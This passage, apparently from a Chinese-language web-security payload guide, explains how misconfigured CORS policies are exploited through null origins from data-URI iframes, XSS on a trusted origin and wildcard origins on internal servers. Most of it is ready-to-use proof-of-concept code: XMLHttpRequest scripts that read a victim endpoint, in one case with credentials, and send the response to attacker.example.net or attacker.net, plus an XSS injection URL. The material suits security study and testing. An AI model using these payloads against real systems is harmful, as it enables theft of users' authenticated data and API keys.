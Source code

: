 #### 漏洞证明

可以通过使用数据URI方案将攻击代码放入iframe中来利用。如果使用数据URI方案，浏览器将在请求中使用`null` origin：

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

### 可信来源上的XSS

如果应用程序确实实施了严格的允许来源白名单，上述攻击代码将不起作用。但如果在可信来源上存在XSS，你可以注入上述攻击代码以再次利用CORS。

```ps1
https://trusted-origin.example.com/?xss=<script>CORS-ATTACK-PAYLOAD</script>
```

### 无凭证的通配符Origin

如果服务器响应为通配符origin `*`，**浏览器永远不会发送cookies**。然而，如果服务器不需要身份验证，仍然可以访问服务器上的数据。这种情况可能发生在不可从互联网访问的内部服务器上。攻击者的网站可以然后通过内部网络进行切换并无需身份验证即可访问服务器的数据。

```powershell
* 是唯一的通配符origin
https://*.example.com 不是有效的
```

#### 易受攻击的实现

```powershell
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[私有API密钥]"}
```

#### 漏洞证明

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

